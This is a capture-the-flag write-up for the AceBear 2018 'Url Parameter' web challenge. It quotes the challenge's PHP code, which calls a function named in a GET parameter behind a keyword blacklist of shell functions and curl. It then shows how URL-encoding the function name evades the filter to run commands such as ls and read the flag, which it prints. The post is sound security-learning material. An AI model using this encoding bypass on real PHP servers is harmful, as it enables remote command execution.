 ```yaml
---
layout: post
title: Url Parameter
category: AceBear 2018
---
```




Hello guys, just wake up after 48h of fighting, i will try to make write up for all web task as its all cleaned Here :D

So lets start with this easy task (at least look easy for me  :p) 

First look at robots.txt give us some hint : `http://35.196.45.11:8080/robots.txt`

give us :

```
# you know de wae ma queen
User-Agent: *
Disallow: /?debug
```

then check 

`
http://35.196.45.11:8080/?debug
`
will show us simple php code , we need to send something like `http://35.196.45.11:8080/system=id` where system is the $key and id is the $val

```
$blacklist = "assert|system|passthru|exec|assert|read|open|eval|`|_|file|dir|\.\.|\/\/|curl|ftp|glob";

if(count($_GET) > 0){
	if(preg_match("/$blacklist/i",$_SERVER["REQUEST_URI"])) die("No no no hackers!!");
	list($key, $val) = each($_GET);
	$key($val);
}
```

almost here all function that can be used filtred (open & read & _ ) will filter also many other function

so here make me stuck !

but my friend mention something that maked this almost done 'encode'
As here the filter work on ```$_SERVER["REQUEST_URI"]``` and the in final step we have ```$_GET``` so if we encode our data it end decoded in   ```each($_GET); ``` but not in ```$_SERVER["REQUEST_URI"]```

So the plan is clear here, encode our data to bypass filter and call any function :D

![image](https://user-images.githubusercontent.com/7364615/35493904-ffb66d3c-04b6-11e8-8c82-25acb5c3c60b.png)

lets try it now :

`http://35.196.45.11:8080/%73%79%73%74%65%6d=ls`

![image](https://user-images.githubusercontent.com/7364615/35493920-219f6c1e-04b7-11e8-8660-9d4e6a53dfcd.png)

Then final step read flag file :D 

![image](https://user-images.githubusercontent.com/7364615/35493934-4ac2221c-04b7-11e8-88c0-5b0ca3caf17b.png)

`
AceBear{I_did_something_stupid_with_url}
`

Thanks guys , will try to make write up (BearShare & BearShare 2 & Tet shopping) ;)

